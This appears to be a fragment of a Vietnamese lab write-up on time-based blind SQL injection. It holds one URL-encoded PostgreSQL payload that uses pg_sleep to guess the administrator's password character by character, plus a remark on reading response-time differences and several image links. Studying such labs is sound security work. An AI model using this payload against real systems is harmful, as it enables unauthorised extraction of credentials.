 `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

![image-20250601125245592](./image/image-20250601125245592.png)

Kết quả: dựa vào độ chênh lệch relay time của các response: 

![image-20250601125502410](./image/image-20250601125502410.png)

![image-20250601125716468](./image/image-20250601125716468.png)
